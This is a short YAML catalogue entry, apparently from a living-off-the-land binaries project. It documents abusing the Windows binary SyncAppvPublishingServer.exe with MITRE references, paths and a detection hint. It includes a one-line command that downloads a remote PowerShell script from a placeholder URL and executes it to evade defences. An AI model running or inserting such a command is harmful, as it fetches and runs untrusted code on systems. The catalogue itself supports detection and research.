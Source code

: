 ```yaml
---
name: SyncAppvPublishingServer.exe
description: Used by App-v to get App-v server lists
functions:
  execute:
    - description: Example command on how inject Powershell code into the process
      code: SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Use SyncAppvPublishingServer as a Powershell host to execute Powershell code. Evade defensive counter measures
resources:
    - resource: https://twitter.com/monoxgas/status/895045566090010624
fullpath:
    - path: C:\Windows\System32\SyncAppvPublishingServer.exe
    - path: C:\Windows\SysWOW64\SyncAppvPublishingServer.exe
detection:
  - IOC: SyncAppvPublishingServer.exe should never be in use unless App-V is deployed
acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
---
```

